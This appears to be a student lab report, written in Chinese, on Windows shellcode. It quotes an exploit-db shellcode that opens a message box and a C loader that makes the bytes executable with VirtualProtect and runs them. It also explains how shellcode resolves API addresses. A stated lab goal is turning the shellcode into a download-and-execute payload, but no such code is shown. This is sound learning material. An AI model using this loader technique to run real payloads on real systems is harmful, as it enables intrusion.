




# shellcode
## 实验目的
* [x] 详细阅读 https://www.exploit-db.com/shellcodes 中的 shellcode。建议找不同功能、不同平台的 3-4 个 shellcode 解读
* [x] 修改示例代码的 shellcode，将其功能改为下载执行，也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows 系统中最简单的下载一个文件的 API 是URLDownloadToFileA
## 实验过程
* [Windows/x64 - Dynamic MessageBoxA or MessageBoxW PEB & Import Table Method Shellcode (232 bytes)](https://www.exploit-db.com/shellcodes/48229)
```
# Shellcode Title:  Windows\x64 Dynamic MessageBoxA or MessageBoxW PEB & Import Table Method Shellcode (232 bytes)
# Shellcode Author: Bobby Cooke
# Date: March 2020-03-17
# Tested On: 
# Windows 10 Pro 1909 (x86): HelpPane.exe, notepad.exe, certutil.exe
# Windows 10 Pro 1909 (x86_64): mmc.exe, xwizard.exe  
# [!] Will only work if MessageBoxA or MessageBoxW exist in the Import Table of the Host PE
```
```c
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x55\x89\xe5\x83\xec\x10\x31\xc9\xf7\xe1\x89\xc3\x64\x8b\x5b\x30\x8b\x5b"
"\x08\x53\x58\x03\x43\x3c\xb2\x80\x66\x01\xd0\x8b\x10\x01\xda\x80\xc2\x0c"
"\x66\xb9\x33\x32\x51\x68\x55\x53\x45\x52\x89\x65\xfc\x31\xc9\x52\x31\xc0"
"\xb0\x14\xf6\xe1\x01\x04\x24\x58\x50\x8b\x75\xfc\x8b\x38\x01\xdf\x51\x31"
"\xc9\xfc\xb1\x06\xf3\xa6\x59\x74\x04\x58\x41\xeb\xde\x58\x89\x45\xf8\x2c"
"\x0c\x8b\x00\x01\xd8\x89\x45\xf4\xb9\x6f\x6f\x78\x41\xc1\xe9\x08\x51\x68"
"\x61\x67\x65\x42\x68\x4d\x65\x73\x73\xeb\x08\xc6\x44\x24\x0a\x57\x8b\x45"
"\xf4\x31\xc9\x89\xe6\x31\xd2\x8b\x38\x39\xd7\x74\xec\x01\xdf\x47\x47\x51"
"\x31\xc9\xfc\xb1\x0b\xf3\xa6\x59\x74\x07\xb2\x04\x01\xd0\x41\xeb\xe0\x8b"
"\x45\xf8\x04\x04\x8b\x38\x01\xdf\x31\xc0\xb0\x04\x66\xf7\xe1\x01\xf8\x8b"
"\x00\x8a\x5c\x24\x0a\x31\xc9\x51\x80\xfb\x41\x74\x18\x68\x4b\x2d\x55\x2d"
"\x68\x42\x2d\x4f\x2d\x89\xe2\x42\x88\x2a\x42\x41\x80\xf9\x04\x74\x07\xeb"
"\xf4\x68\x42\x4f\x4b\x55\x31\xc9\x89\xe3\x51\x53\x53\x51\xff\xd0";

int main(int argc, char **argv)
{
  int (*func)();
   DWORD dwOldProtect;
    VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
  func = (int(*)()) code;
  (int)(*func)();
}
```
* 源码运行时如图

* 此时跳转到反汇编会看到报错

* 用之前学过的`VirtualProtect`修改后可以成功运行，如图

* 此时再跳转到反汇编，如下图

可以发现这个时候和源码的汇编部分是不一样的，但是字节码部分是一样的。如果我们是在C语言中编写调用WinExec函数，那个call之后的WinExec函数的地址，是编译器帮我们在可执行程序的导入表中导入了。在进程初始化的过程中，系统会帮我们计算好WinExec函数的地址，然后把函数地址放在导入表中指定的位置。也就是说，shellcode，其实在一个进程初始化的过程中，代替操作系统在干的事情——API函数的动态链接。也就是找到需要调用的API函数的地址。
Shellcode实际是一段代码(也可以是填充数据)，可以用来发送到服务器，利用已存在的特定漏洞造成溢出，通称“缓冲区溢出攻击”中植入进程的代码。这段代码可以是导致常见的恶作剧目的的弹出一个消息框弹出，也可以用来删改重要文件、窃取数据、上传木马病毒并运行，甚至是出于破坏目的的格式化硬盘等等。


